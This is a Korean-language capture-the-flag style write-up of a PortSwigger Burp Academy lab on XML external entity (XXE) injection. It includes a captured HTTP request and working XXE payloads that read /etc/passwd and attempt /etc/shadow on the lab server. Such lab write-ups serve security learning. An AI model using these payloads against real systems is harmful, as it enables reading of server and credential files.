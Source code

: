 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting XXE using external entities to retrieve files"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- 문제명: Exploiting XXE using external entities to retrieve files
- XXE (XML external entity) 공격에 대한 실습 문제이다. 
- XXE의 기본적인 패턴 중 하나의 시스템 파일 읽기를 실습할 수 있다. 
- 주소: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
- 난이도: Apprentice (Easy)
- XXE에 대한 기본적인 내용은 [여기](https://portswigger.net/web-security/xxe){:target="_blank"} 에서 확인가능하다. 


## 랩설명
- Check stock 기능은 XML 입력을 파싱한 결과를 (에러를 포함해서) 돌려준다고 한다. 
- XML external entiry 를 삽입해서 /etc/passwd 파일의 내용을 읽으면 성공이다.   

```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.
```


## 취약점이 있는 곳 찾기
상품 상세 페이지에서 `Check stock` 버튼이 있는 것을 찾았다. 

![Check stock기능](/images/burp-academy-xxe-1-1.png)

버튼을 클릭하면 다음 요청이 전송된다. 

```
POST /product/stock HTTP/1.1
Host: 0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Cookie: session=1uOtwtnBX2Udo4b3VfYEXUpYiZuR7xja
Content-Length: 107
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7onnection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

HTTP 응답은 다음과 같다. 
```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 2

94
```

POST 요청의 XML 바디 부분에 XXE 공격 페이로드를 넣으면 될 것 같다. 

## 1차 시도 
https://github.com/payloadbox/xxe-injection-payload-list
를 참고해서 
`<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>` 를 추가해서 보내봤다. 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY foo SYSTEM "file:///etc/shadow"> ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

200 응답이 되돌아왔다. 뭔가 잘못된 것 같다. 

## 2차 시도 
아, 페이로드에 `&foo;` 로 출력해주는 부분이 없었다. 다음 페이로드로 시도해보자 /etc/passwd의 내용을 확인할 수 있었따. 

``` 
<!DOCTYPE test [<!ENTITY foo SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&foo;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Burp Suite Repeater로 확인한 모습 
![Check stock기능](/images/burp-academy-xxe-1-3.png)

성공! 
![Check stock기능](/images/burp-academy-xxe-1-2.png)